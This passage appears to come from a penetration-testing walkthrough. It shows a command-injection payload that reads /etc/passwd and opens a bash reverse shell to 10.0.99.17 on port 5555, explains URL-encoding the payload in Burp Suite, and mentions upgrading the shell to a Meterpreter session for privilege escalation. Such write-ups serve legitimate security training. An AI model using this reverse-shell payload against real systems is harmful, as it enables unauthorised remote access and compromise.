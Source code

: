 ```bash
/etc/passwd;bash -c 'bash -i >& /dev/tcp/10.0.99.17/5555 0>&1'
```

The command above is the command to cat the /etc/passwd file of the target machine and start a reverse shell.

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>Attack in Burpsuite</p></figcaption></figure>

Because the attack is going through the web server, the attack needs to be URL encoded. If not the attack will fail and error out.

#### Turning Reverse Shell into Meterpreter shell

<details><summary>Quick Commands</summary></details>

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption><p>Creating Reverse Shell in metasploit</p></figcaption></figure>

This shows how to gain an active reverse shell to the target from Metasploit

<figure><img src="../.gitbook/assets/image (34) (1).png" alt=""><figcaption><p>elevating the shell to a meterpreter shell</p></figcaption></figure>

We want to elevate the reverse shell to a Meterpreter session so we can execute our privilege Escalation.

